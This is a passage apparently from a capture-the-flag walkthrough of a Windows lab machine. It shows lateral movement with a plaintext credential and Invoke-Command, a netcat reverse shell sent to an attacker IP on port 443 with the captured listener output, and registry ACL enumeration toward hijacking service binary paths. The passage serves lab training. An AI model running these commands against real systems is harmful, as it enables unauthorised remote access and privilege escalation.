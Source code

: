 We'll create a `Credential variable` here. We do this because Windows doesn't like passing passwords as plain text to a command.
```powershell
PS C:\inetpub\wwwroot> $pass = convertTo-SecureString -AsPlainText -Force -String "l33th4x0rhector"
PS C:\inetpub\wwwroot> $credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "nt authority\hector",$pass
```

Now, we'll use `Invoke-Command` to run commands as hecotor, and it works.
``` powershell
PS C:\inetpub\wwwroot> Invoke-Command -ComputerName Fidelity -Credential $credential -ScriptBlock {whoami}
control\hector
```
Now, with using the same `nc.exe` at `C:\temp\` . We can obtain a reverse shell as `hector` using `Invoke-Command`.
```powershell
PS C:\inetpub\wwwroot> Invoke-Command -ComputerName Fidelity -Credential $credential -ScriptBlock {C:\temp\nc.exe 10.10.15.251 443 -e powershell}
```

And We got a shell as `Hector` user.
```powershell
$ sudo rlwrap ncat -lvnp 443

Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49688.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\Documents> whoami
control\hector
PS C:\Users\Hector\Documents> hostname
Fidelity
```
## Privilege Escalation
Let's check Powershell `history` file, to see if we can find anything interesting there.
```powershell
PS C:\Users\Hector\Documents> gc (Get-PSReadlineOption).HistorySavePath

get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```
It seems like `hector` has been looking at `Registry ACL's` and items under `CurrentControlSet`. Maybe they've changed the permissions somewhere. Service Properties exist as subkeys and values under the `HKLM:\SYSTEM\CurrentControlSet\Services`. If we've permissions tho this we can potentially change the `binary path` for all the services. Let's check the permissions.
```
PS C:\Users\Hector\Documents> $acl = get-acl HKLM:\System\CurrentControlSet\Services

PS C:\Users\Hector\Documents> $acl
Path                                                                                     Owner               Access    
----                                                                                     -----               ------    
Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services NT AUTHORITY\SYSTEM CREATOR...

PS C:\Users\Hector\Documents> ConvertFrom-SddlString -Sddl $acl.Sddl -type RegistryRights| Foreach-Object {$_.DiscretionaryAcl}

NT AUTHORITY\Authenticated Users: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)
```